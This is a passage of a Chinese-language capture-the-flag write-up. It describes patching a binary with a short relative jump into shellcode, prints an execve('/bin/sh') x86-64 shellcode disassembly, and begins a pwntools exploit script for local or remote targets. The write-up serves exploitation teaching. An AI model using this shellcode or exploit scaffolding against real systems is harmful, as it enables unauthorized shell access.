 那么，如果我们将`ROP_gadgets`替换为`shellcode`，再利用`patch`加入跳转指令，跳转至`shellcode`即可。

可以使用`ret rel8`形式的跳转，这种跳转的通常为`EB XX`，例如本题应该使用`EB 46`代表的汇编语句是`jmp 0x48`，但是，这里的`0x48`是相对地址，相对于**本条地址**的偏移，例如我们将`0x40068`处的代码改为`jmp 0x48`，反汇编后，这里的代码将显示为`jmp 0x4001B0`。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-14-150448.png)

那么，我们接下来直接去`exploit-db`寻找好用的`shellcode`即可：

```
0000000000400080 &lt;_start&gt;:
  400080:    50                       push   %rax
  400081:    48 31 d2                 xor    %rdx,%rdx
  400084:    48 31 f6                 xor    %rsi,%rsi
  400087:    48 bb 2f 62 69 6e 2f     movabs $0x68732f2f6e69622f,%rbx
  40008e:    2f 73 68 
  400091:    53                       push   %rbx
  400092:    54                       push   %rsp
  400093:    5f                       pop    %rdi
  400094:    b0 3b                    mov    $0x3b,%al
  400096:    0f 05                    syscall
```

### <a class="reference-link" name="FInal%20Exploit"></a>FInal Exploit

```
from pwn import *
import traceback
import sys
import base64
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

# file_name=ELF('./file_name', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./file_name")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./file_name")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
```